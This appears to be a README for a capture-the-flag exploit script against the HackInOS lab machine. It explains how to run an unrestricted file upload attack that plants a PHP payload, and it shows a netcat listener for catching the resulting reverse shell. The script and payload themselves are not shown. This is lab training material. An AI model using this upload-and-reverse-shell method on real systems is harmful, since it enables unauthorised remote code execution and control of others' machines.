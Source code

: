 # HackInOS_RCE
Exploit the Unrestricted File Upload to gather Remote Code Execution for CTF HackInOS.

# Usage
`python3 HackInOS_RemoteFileUpload.py <url_of_machine> <file_to_upload> <lhost> <lport>`

If `LHOST` and `LPORT` are specified, prepare a terminal with `netcat` up and running in listening to the <lport> port.
Example:

In one terminal:
```
python3 HackInOS_RemoteFileUpload.py http://localhost:8000 HIOS_RCE.php 10.0.0.105 4444
```
In another terminal:
```
nc -vlp 4444
```
If `LPORT` and `LHOST` are not set, the script will only upload the file and output his location.

#Dependencies
It requires `Python3` and the library `requests`.
